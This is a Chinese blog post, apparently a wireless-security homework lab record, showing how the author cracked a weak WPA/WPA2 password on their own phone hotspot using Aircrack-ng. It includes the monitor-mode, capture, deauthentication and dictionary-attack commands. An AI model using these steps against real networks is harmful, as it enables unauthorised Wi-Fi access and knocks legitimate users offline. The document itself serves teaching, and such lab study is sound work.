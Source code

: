 ```yaml
---
title: 窥间伺隙：Aircrack 套件破解 WPA/WPA2 密码
date: 2020-10-18 13:24:01
tags:
  - Kali
  - 网络
  - 实践记录
categories:
  - 安全工具
featuredImage: https://cdn.jsdelivr.net/gh/SignorMercurio/blog-cdn/AircrackWPA/0.jpg
---
```


《无线网络安全》作业。梦回大一。

<!--more-->

## 准备工作

手机开启热点，设置弱密码 `merc123321`，热点 SSID 为 `nova 4`。物理机连接 `nova 4` 无线网络作为被害主机。

![图 1](https://cdn.jsdelivr.net/gh/SignorMercurio/blog-cdn/AircrackWPA/1.png)

为 Kali 虚拟机添加无线网卡，随后即可在 `ifconfig` 的输出中看到 `wlan0` 网卡：

![图 2](https://cdn.jsdelivr.net/gh/SignorMercurio/blog-cdn/AircrackWPA/2.png)

首先启动监听：

```shell
$ sudo airmon-ng start wlan0
```

结果如图：

![图 3](https://cdn.jsdelivr.net/gh/SignorMercurio/blog-cdn/AircrackWPA/3.png)

此时 `ifconfig` 可以看到 `wlan0mon` 监听网卡：

![图 4](https://cdn.jsdelivr.net/gh/SignorMercurio/blog-cdn/AircrackWPA/4.png)

随后扫描无线网络：

```shell
$ sudo airodump-ng wlan0mon
```

结果如图，可以看到 `nova 4` 网络的 BSSID 为 `D8:9B:3B:9E:AB:A9`。

![图 5](https://cdn.jsdelivr.net/gh/SignorMercurio/blog-cdn/AircrackWPA/5.png)

利用该 BSSID 过滤掉其余网络流量：

```shell
$ sudo airodump-ng -c 11 --bssid D8:9B:3B:9E:AB:A9 -w psk wlan0mon
```

结果如图：

![图 6](https://cdn.jsdelivr.net/gh/SignorMercurio/blog-cdn/AircrackWPA/6.png)

## 捕获 WPA 握手包

此时我们需要捕获到 WPA 握手包，因此可以攻击一个已经连接到该网络的主机（即我们的物理机），让它强制掉线并重连产生握手包。

首先查看被害主机 MAC 地址：

![图 7](https://cdn.jsdelivr.net/gh/SignorMercurio/blog-cdn/AircrackWPA/7.png)

可以看到 MAC 地址为 `F4:8C:50:9F:E5:43`。实际上，在前面 `airodump-ng` 时的界面中也可以直接看到连接了该网络的主机 MAC 地址。随后发送 `DeAuth` 包使其掉线：

```shell
$ sudo aireplay-ng -0 1 -a D8:9B:3B:9E:AB:A9 -c F4:8C:50:9F:E5:43 wlan0mon
```

出现 `WPA handshake` 即捕获到了握手包，可以停止捕获了。

![图 8](https://cdn.jsdelivr.net/gh/SignorMercurio/blog-cdn/AircrackWPA/8.png)

## 口令破解

此时在目录下会生成 `psk-01.cap` ，我们使用 `aircrack-ng` 进行口令破解：

```shell
$ sudo aircrack-ng -w password.lst -b D8:9B:3B:9E:AB:A9 psk*.cap
```

使用的字典中包含了 `merc123321` 这个真正的密码：

```shell
$ cat password.lst
merc123
merc1234
merc123456
123merc
1234merc
123456merc
merc123321
merc321123
```

最后即可成功破解：

![图 9](https://cdn.jsdelivr.net/gh/SignorMercurio/blog-cdn/AircrackWPA/9.png)
